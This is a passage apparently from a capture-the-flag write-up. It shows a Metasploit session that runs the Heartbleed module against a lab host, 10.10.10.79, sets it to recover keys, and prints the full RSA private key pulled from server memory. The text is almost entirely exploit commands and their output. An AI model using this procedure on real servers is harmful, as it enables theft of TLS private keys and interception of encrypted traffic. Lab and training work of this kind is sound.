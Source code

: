 RHOSTS => 10.10.10.79
msf auxiliary(scanner/ssl/openssl_heartbleed) > set MAX_KEYTRIES 20000
MAX_KEYTRIES => 20000
msf auxiliary(scanner/ssl/openssl_heartbleed) > show actions

Auxiliary actions:

   Name  Description
   ----  -----------
   DUMP  Dump memory contents
   KEYS  Recover private keys from memory
   SCAN  Check hosts for vulnerability


msf auxiliary(scanner/ssl/openssl_heartbleed) > set ACTION KEYS
ACTION => KEYS
msf auxiliary(scanner/ssl/openssl_heartbleed) > exploit

[*] 10.10.10.79:443       - Scanning for private keys
[*] 10.10.10.79:443       - Getting public key constants...
[*] 10.10.10.79:443       - 2018-07-09 17:07:42 UTC - Starting.
[*] 10.10.10.79:443       - 2018-07-09 17:07:42 UTC - Attempt 0...
[+] 10.10.10.79:443       - 2018-07-09 17:07:47 UTC - Got the private key
[*] 10.10.10.79:443       - 
-----BEGIN RSA PRIVATE KEY-----
MIIEpgIBAAKCAQEAwygXrPgZKkHSij/OeRwZ9PtI+tMvM2tvyJz5o78ZZqihjfki
Yg7hnkVQH1kvrLqVz68jqlTJZEAPJajF3cvEHIcM0nMSLnd2z4lI+zlK4fU9QMO1
moJo9o2Msk0/TwMJwLqtdF1TZLBXakQPH7f2+wWIrrLByt6m+8Vmd0YpdWDQr5Hd
WTA6C4+FIeVdyCIcVup6Lw0nXOKn1i5VRheHItUbZmIlhfoJHDhtGxSeqXrgMU1D
Js6wkebQm0jYz095+a8SRNRl5P93R1aFTTvprdtN6y0pl/hampnDrRcabHOkBB/l
1Y6ox6YgrorgULjxstJI3n2ziQ226G3Ho4JelwIDAQABAoIBAQCWkqd5wE6CSRjt
q/9deC4a04riY/CmJr2vtlXyXi52A6Pqi49YwwyW9fm0xjY/ehK+k+3brOFZ5QcK
0mYgE+iy7gwZj8k2atwTkmPp2bGKF5J0FsxWc0oS+PHWXD19c+Wheyb7gkomhNxd
VDerDGCWGxXzXF6jbRi/ZvYBDvRL59YOvXmdQa3MKykGywUn+NFZvUxICyEma24K
5ABMIWm5cTmDzm5Cd5/wn5Pu4tY0TIzfoa3KnA+M8vpmd4xgRGWGpatFKrM3LqSq
W0+Rr81Ty/R7lr1DkLDKp1ltvCl3pp1Lkoo3Ublk38C6gHHS3Vfs6h+QJfNgjeQu
RyKqm3H5AoGBAM8MF8KO2EtVQUrosnZQfn+2pLbY4n4Q66N3QaBeoqY7UipBJ1r3
jIfupiw5+M1gEXvBgnQmRLwRAA7Wmsh0/eCxeOk7kgNr7W8nNdxwp0Uv06h1CtEq
vFIuXab5pYG5/QKshabSXxY02QuaVgM/vXBTSOO0TC/7Rm6ORJzAxAeTAoGBAPFM
TE9WpalFjB0u+hHNbFRfRet8480wa5702AEDK/cHi0U+R9Z0Va/qm7PtzBP/m4nU
XJwZbvG9O2PKXusGmgIBc/jqSQpQriIvBb27AJiq65Jd7tJ4AiNZm6v/bFChFmWh
dZe1S4vBgnlYoRWHsu+3JJpMJFKZYYl9O/X8ZWdtAoGBAK1DJmL23MP13UTNhAKE
i8deVWp6BteOW1KZCr8kUqIfRDv99+wk+mIKcN7TyIQ9H4RbxEpkd+KVq2G/bxnO
5WFxwogTBLZ+S9xXiLgnQaMhSdNP1rSBOcTf7hk8EqeDt9nT+6hFpbLUmMkf51ii
r2nfGEEM8TC56w+7WGmA2sqnAoGBAOakinBvnwuMmaAvjgJEO57uLlQoXUp9VPFs
kaduE7EdOecm393B90GeW9QBoccf1NlK7naa7OwOd90ry8yU09LE9shfkQ9WDQxJ
rBAt1iUXgvK17Jiq80g818rw6+SqBVGBongvZ5WfkwpQSDDfM49knI0L6NA3If8c
gJrg9UCFAoGBAIetkT/XaN+IV3N/mkBVwLXPcDIP8aGp/qJaA6gd9ThPUh9dB8rI
bntGLbQ1rVg4Rl8NZaMi6vvgllqpecgrTOTDvhdyvWG21ayuyD3kYkPxB91bkUo2
+xJUUVx5lM5NNiefWNB+2RPBdsjSHa0VMYA3E1gjp/WQa9eelevdTBVk
-----END RSA PRIVATE KEY-----

[*] 10.10.10.79:443       - Private key stored in /root/.msf4/loot/20180709130747_default_10.10.10.79_openssl.heartble_729752.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
{% endhighlight %}
